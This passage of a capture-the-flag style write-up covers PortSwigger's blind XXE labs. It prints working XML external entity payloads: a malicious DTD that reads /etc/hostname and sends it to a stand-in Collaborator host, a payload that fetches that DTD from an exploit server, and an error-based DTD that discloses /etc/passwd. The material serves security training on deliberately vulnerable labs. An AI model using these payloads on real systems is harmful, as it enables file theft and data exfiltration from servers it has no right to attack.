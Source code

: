 ## Lab 5: Blind XXE using malicious external DTD

To solve this lab, read `/etc/hostname`. This lab gives me an Exploit Server, as well as a Submit Feedback function.

The submit feedback function wasn't particularly interesting.

I was unable to read files using the method used in Lab 4. However, I was able to make the lab send a request to Burp Collaborator. Since I was given an Exploit Server, I can try to store a malicious DTD on it.

I want to extract the data from `/etc/hostname`, and then send that to Collaborator. I stored this file on the exploit server:

```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://BURP/?x=%file;'>">
%eval;
%exfil;
```

`&#x25` represents a `%` in Unicode, and it is used because of syntaxing. After storing this on the exploit server, I used this payload to make the application retrieve it and process it.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % test SYSTEM 'https://EXPLOIT/evil.dtd'> %test; ]> 
<stockCheck>
<productId>1</productId>
<storeId>1</storeId>
</stockCheck>
```

This would trigger a lookup to Collaborator:

![](../../.gitbook/assets/portswigger-xxe-writeup-image-3.png)

Submitting that value solves the lab.

## Lab 6: Error based blind XXE

To solve this lab, use an external DTD to trigger an error message that displays `/etc/passwd`.

The error can be triggered by trying to read a file that does not exist.

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; fail SYSTEM 'file:///idontexist/%file;'>">
%eval;
%fail;
```
